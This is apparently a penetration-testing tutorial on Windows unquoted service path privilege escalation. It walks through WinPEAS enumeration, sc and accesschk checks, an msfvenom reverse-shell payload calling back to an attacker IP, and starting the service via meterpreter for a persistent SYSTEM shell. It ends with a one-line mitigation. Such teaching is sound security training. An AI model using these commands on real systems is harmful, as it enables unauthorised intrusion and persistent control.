









:orphan:
(privilege-escalation-techniques-windows-unquoted-service-path)=
# Privilege Escalation Techniques Windows Unquoted Service Path
 
The second stage of system hacking involves escalating privileges. Attackers get system access with low privilege and then attempt to gain higher rights to do operations that are restricted to less privileged users. Microsoft Windows services allow you to write long-running executables that operate in their own Windows sessions. These services can be started automatically when the computer boots, is paused, or restarted, and does not have a user interface. In this article, we will exploit the Unquoted service path technique to increase our privilege from low-level user to `NT-Authority/System` user. 

## Unquoted service path 

**Mitre ID:** T1574.009

**Tactics:** Privilege Escalation & Persistence

**Platforms:** Windows

Adversaries can take advantage of paths that lack surrounding quotations by placing an executable in a higher-level directory within the path so that Windows will choose the adversary's executable to launch.
`Source: https://attack.mitre.org/techniques/T1574/009/`

If the path to the service binary is not enclosed in quotes and contains white spaces, leads to a vulnerability known as an unquoted service path which allows the user to gain `SYSTEM` privileges.

For example, This service uses the unquoted path: `C:\Program Files\Unquoted Path Service\Common Files\unquotespathservice.exe`

To run the unquotespathservice.exe, the system will read this path in the following order. 
`C:\Program.exe`
`C:\Program Files\Unquoted.exe`
`C:\Program Files\Unquoted Path Service\Common.exe`
`C:\Program Files\Unquoted Path Service\Common Files`
`C:\Program Files\Unquoted Path Service\Common Files\unquotespathservice.exe
`
The service would treat the space as a break and pass the remaining portion of the service path as an argument if it were not enclosed in quotes and contained spaces.

This demonstration assumes that you have gotten a low privileged shell either through netcat or a meterpreter session, etc. 

To search for the unquoted service paths, use the `WinPEAS` script. `WinPEAS` is a script that searches for possible paths to escalate privileges on Windows hosts.
`https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe `

`winPEASx64.exe quiet servicesinfo`

By scrolling down for more results.

Winpeas script has found a service named unquotedsvc, which has an unquoted service path.

To escalate the privileges, we need this service to run with system privileges because if the service runs with privileges that are not elevated then we will not get elevated privileges.

Use the sc command to query the configuration of the service. The Service Control `(sc)`  command is used to **Create, Start, Stop, Query, or Delete any Windows SERVICE.** The command options for SC are case-sensitive. 

`sc qc unquotedsvc `

From the above screenshot, this command will provide a full binary path of the service ie `BINARY_PATH_NAME` and the `SERVICE_START_NAME` is Localsystem which means it starts or is executed with the `NT-Authority system` privileges. 

Now use the accesschk.exe tool to identify the current user permissions or check whether the `BUILTIN\User` group is allowed to write to the `C:\Program Files\Unquoted Path Service\` 
`AccessChk` is a console program. `AccessChk` allows administrators to see what kind of access specific users or groups have to resources, including files, directories, Registry keys, global objects, and Windows services.

The following command can be used to check the permissions for  `C:\Program Files\Unquoted Path Service\ `

`accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`

From the screenshot, Read and Write permission is given to `BUILTIN\Users`. That means we can essentially place our malicious executable within these directories and receive a reverse connection. 

It’s time to exploit the weak configured services against unquoted paths by creating a backdoor file named Common.exe using msfvenom. 
`msfvenom -p windows/x64/shell_reverse_tcp lhost=10.17.2.160 lport=4444 -f exe -o Common.exe `

After the file is created, navigate to the “`C:\Program Files\Unquoted Path Service`” folder and use the upload functionality of the meterpreter to upload the backdoor created. 

from the meterpreter session, switch to cmd by typing the shell command in the meterperter. Use the net start command to the service ie `unquotedsvc.` The net start command is used to start a network or list the running network services. 
`net start unquotedsvc 
`

As soon as the service will launch, the attacker will get a reverse connection in the new netcat session as `NT Authority \system` 

Escalation of privilege to the NT authority system is successful. This method will automatically restart the `Common.exe`, which will once more provide a reverse connection, even if the user restarts the system. To mitigate this attack always make sure to enclose the path for any services that have a space in quotes. 

:::{seealso}
Looking to expand your knowledge of penetration testing? Check out our online course, [MPT - Certified Penetration Tester](https://www.mosse-institute.com/certifications/mpt-certified-penetration-tester.html)
:::